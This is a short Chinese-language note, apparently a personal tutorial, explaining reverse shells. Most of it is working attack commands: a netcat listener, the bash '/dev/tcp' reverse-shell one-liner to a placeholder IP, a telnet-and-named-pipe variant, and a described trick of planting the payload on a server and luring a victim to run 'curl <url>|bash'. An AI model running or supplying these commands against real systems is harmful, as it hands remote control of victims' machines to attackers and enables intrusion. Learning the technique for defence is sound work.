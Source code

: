 有时候两台机器ping是单向通的，所以需要通过反向连接（你连接我，让我控制你）

想让对方控制自己，首先对方先开启监听
nc -l 3249

然后自己发送一个shell过去
bash -i >& /dev/tcp/<ip>/3249 0>&1

理解这个命令就是启动一个（交互式-i的）shell，只不过这个shell的标准输入标准错误都输出到远程tcp连接的服务器上，同时标准输入也由远程tcp连接的服务器来输入，就相当于全部所有的部分都交给远程来操作了；



## 其他种实现：
1）
攻击者在服务器资源文件中写
`bash -i >& /dev/tcp/<ip>/3249 0>&1`
然后诱导你执行curl <url>|bash，这样虽然你没有写反弹shell的代码，但是一样执行了

2）
mknod a p; telnet <ip> 3249 <a | /bin/bash -i &>a
创建一个管道（a），类似启动一个交互式shell，shell的输出都丢给管道a，管道a的内容又丢给telnet来发送给服务器